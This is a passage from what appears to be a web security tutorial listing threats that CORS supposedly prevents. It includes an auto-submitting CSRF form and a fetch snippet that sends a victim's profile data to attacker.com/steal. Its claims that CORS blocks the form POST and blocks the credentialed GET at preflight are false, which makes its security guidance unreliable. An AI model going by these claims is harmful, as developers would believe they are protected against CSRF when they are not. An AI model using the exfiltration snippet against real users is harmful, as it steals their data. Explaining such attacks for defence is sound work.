 
## 🚨 Security Threats CORS Prevents

### 1. **Cross-Site Request Forgery (CSRF)**

**Attack Scenario**:

```html
<!-- Malicious website trying to make unauthorized request -->
<form action="[https://yourbank.com/transfer](https://yourbank.com/transfer)" method="POST">
    <input name="to" value="attacker-account">
    <input name="amount" value="1000">
</form>
<script>document.forms[0].submit();</script>
```

**CORS Protection**: The browser blocks this request because [`malicious.com`](http://malicious.com) is not in your allowed origins.

### 2. **Data Theft via JavaScript**

**Attack Scenario**:

```jsx
// Malicious site trying to steal user data
fetch('[https://yourapi.com/user/profile](https://yourapi.com/user/profile)', {
    credentials: 'include'  // Include cookies
})
.then(response => response.json())
.then(data => {
    // Send stolen data to attacker's server
    fetch('[https://attacker.com/steal](https://attacker.com/steal)', {
        method: 'POST',
        body: JSON.stringify(data)
    });
});
```

**CORS Protection**: Request is blocked at the preflight stage if origin is not allowed.

### 3. **Session Hijacking**

**Attack Scenario**: Malicious sites trying to use authenticated user's session cookies to access protected resources.

**CORS Protection**: `allowCredentials: true` only works with explicit origins, never with wildcards (`*`).

---

## 🔧 Production Security Configuration

### Environment-Specific Settings
